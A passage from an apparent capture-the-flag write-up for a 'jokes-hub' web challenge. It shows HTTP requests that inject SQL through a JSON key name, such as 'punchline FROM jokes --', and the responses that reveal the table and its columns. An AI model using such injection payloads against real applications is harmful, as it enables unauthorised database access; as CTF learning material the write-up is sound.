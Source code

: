 So, the value doesn't mean anything now.

Also, we can get this :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"punchline FROM jokes --":3}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 02:14:01 GMT
content-type: application/json
content-length: 40
connection: close

{"result":"To get to the other slide!"}
```

Moreover, we got that the name of the table is `jokes`, and there is two columns called `joke` and `punchline`.


Other tentatives :

1. multiple columns :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"joke, punchline FROM jokes --":3}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 02:14:01 GMT
content-type: application/json
content-length: 40
connection: close

{"result":"Why did the chicken cross the playground?"}
```

And

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"punchline, joke FROM jokes --":3}
```
